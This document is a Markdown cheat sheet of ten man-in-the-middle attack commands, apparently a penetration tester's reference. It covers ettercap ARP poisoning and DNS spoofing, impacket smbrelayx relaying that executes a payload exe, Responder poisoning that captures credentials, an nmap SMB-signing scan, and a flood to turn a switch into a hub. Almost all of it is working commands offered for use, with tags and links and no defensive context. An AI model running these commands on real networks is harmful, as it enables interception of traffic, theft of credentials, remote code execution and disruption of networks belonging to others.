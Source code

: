 ### 1. Ettercap arp poisoning
```
ettercap -M arp -T -i em1 -L log /[TARGET]//
```
**- linux,networking,MitM**
#### References:

https://ettercap.github.io/ettercap/
__________
### 2. ARP Spoofing filter
```
etterfilter *.filter -o smb.ef
```
**- linux,networking,MitM**
#### References:

https://ettercap.github.io/ettercap/
http://www.thegeekstuff.com/2012/05/ettercap-tutorial
__________
### 3. ARP Spoofing gateway
```
ettercap -i em1 -L etter.log -T -M arp:remote /192.168.104.254/// ////
```
**- linux,networking,MitM**
#### References:

https://ettercap.github.io/ettercap/
https://yg.ht
http://www.thegeekstuff.com/2012/05/ettercap-tutorial
__________
### 4. ARP Spoofing everything
```
ettercap -i wlan0 -L etter.log -T -M arp:remote -L [CLIENT+TARGET].log /[GW IP]// /[TARGET IP]//
```
**- linux,networking,MitM,wifi**
#### References:

https://ettercap.github.io/ettercap/
https://yg.ht
http://www.thegeekstuff.com/2012/05/ettercap-tutorial
__________
### 5. ARP Spoofing DNS
```
ettercap -i [interface] -L etter.log -T -P dns_spoof -M arp:remote -L [CLIENT+TARGET].log /[GW IP]// /[TARGET IP]//
```
**- linux,networking,MitM,wifi**
#### References:

https://ettercap.github.io/ettercap/
https://yg.ht
http://www.thegeekstuff.com/2012/05/ettercap-tutorial
__________
### 6. smbrelay targeted
```
smbrelayx.py -h [TARGETIP] -e [PAYLOAD exe]
```
**- linux,smb,MitM,Windows,impacket,privilege escalation**
#### References:

https://www.coresecurity.com/corelabs-research/open-source-tools/impacket
__________
### 7. smbrelay reflection : note read into http -> smb refelction
```
smbrelayx.py -e [PAYLOAD exe]
```
**- linux,smb,MitM,Windows,impacket,privilege escalation**
#### References:

https://www.coresecurity.com/corelabs-research/open-source-tools/impacket
__________
### 8. responder NBNS LLMNR
```
/data/hacking/Responder/Responder.py -I eth0 -wrfFd --lm -i [YOUR IP]
```
**- linux,passwords,smb,MitM,privilege escalation**
#### References:

https://github.com/SpiderLabs/Responder
https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/
__________
### 9. nmap smb signing
```
nmap --script smb-security-mode.nse -p445 -iL [hostsfile] -oA nmap-SMBSigning
```
**- linux,networking,scanning,smb,MitM**
#### References:

https://nmap.org/book/man-examples.html
https://highon.coffee/blog/nmap-cheat-sheet/
https://www.cyberciti.biz/networking/nmap-command-examples-tutorials/
__________
### 10. try to make the switch fall over, and turn into a hub
```
ettercap -TP rand_flood
```
**- linux,MitM**
#### References:

https://linux.die.net/man/8/ettercap_plugins
__________
